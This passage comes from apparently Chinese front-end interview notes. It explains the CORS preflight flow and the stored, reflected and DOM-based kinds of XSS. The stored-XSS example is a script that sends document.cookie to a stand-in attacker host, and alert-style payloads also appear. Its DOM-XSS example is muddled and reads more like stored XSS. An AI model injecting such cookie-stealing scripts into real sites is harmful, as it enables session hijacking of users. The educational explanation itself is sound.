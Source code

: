 - **发送请求头**：浏览器向目标服务器发送一个请求，其中包含了请求方法（`GET`、`POST`等）和请求的`URL`。检查同源策略，浏览器会检查目标`URL`是否符合同源策略。它会比较目标`URL`的协议、主机和端口号与当前网页的协议、主机和端口号是否一致。如果不一致，就会触发跨域请求。​

- **发送跨域请求**：如果目标`URL`与当前网页不同源，浏览器会发送一个跨域请求。跨域请求通常是一个`HTTP OPTIONS` 预检请求（`preflight request`），用于检查目标服务器是否允许跨域请求。​

- **服务器处理预检请求**：目标服务器接收到预检请求后，会进行一系列的处理。它会检查请求中的一些特定头部信息，如`Origin`和`Access-Control-Request-Method`，来验证是否允许跨域请求。​

- **发送响应头**：如果服务器允许跨域请求，它会在响应中添加一些特定的头部信息，如`Access-Control-Allow-Origin`和`Access-Control-Allow-Methods`。这些头部信息告诉浏览器该请求是被允许的。​

- **检查响应头**：浏览器接收到服务器的响应后，会检查响应中的头部信息。它会查看`Access-Control-Allow-Origin`头部，判断是否允许当前网页进行跨域请求。​

- **处理响应数据**：如果服务器允许跨域请求，浏览器会将响应数据返回给发起请求的网页。否则，浏览器将拒绝访问响应数据，并在控制台中报错。

## 问题21：XSS 攻击是什么？​

攻击者通过注入恶意脚本代码来利用应用程序的漏洞，从而在用户的浏览器中执行恶意操作。​

XSS攻击通常分为三种类型：存储型（Stored）、反射型（Reflected）和DOM型（DOM-based）。​
​
**存储型XSS攻击**：
​
攻击者将恶意脚本代码上传到目标网站的服务器上，通常是在用户评论、留言板或用户生成的内容中。当其他用户访问包含恶意代码的页面时，他们的浏览器会执行这些代码。​
​
**案例1**：攻击者在一个论坛网站上发表了一个包含恶意脚本的评论。其他用户访问这个评论时，恶意脚本会被执行，窃取他们的会话cookie并发送到攻击者的服务器上。​

```html
<!-- 攻击者发布的评论 -->​
<script>​
fetch("http://attacker.com/steal?cookie=" + document.cookie);​
</script>
```

**反射型XSS攻击**：
​
**案例**：攻击者将恶意脚本包含在URL中，然后诱使用户点击该URL。当用户打开URL时，恶意脚本会在用户的浏览器中执行，执行一些恶意操作。​

```html​
http://vulnerable-website.com/search?query=<script>alert('XSS')</script>​
```

​
**DOM型XSS攻击**：​

案例：在一个社交媒体应用程序中，攻击者在用户输入框中输入恶意脚本，当其他用户查看这个帖子时，恶意脚本会在其浏览器中执行。​

1. 用户输入：​

```html
<img src=x onerror="alert('XSS')">​
```

2.显示在页面上的内容：​

```html
<div class="post-content"><p>这是一个帖子</p><img src=x onerror="alert('XSS')"></div>​
```
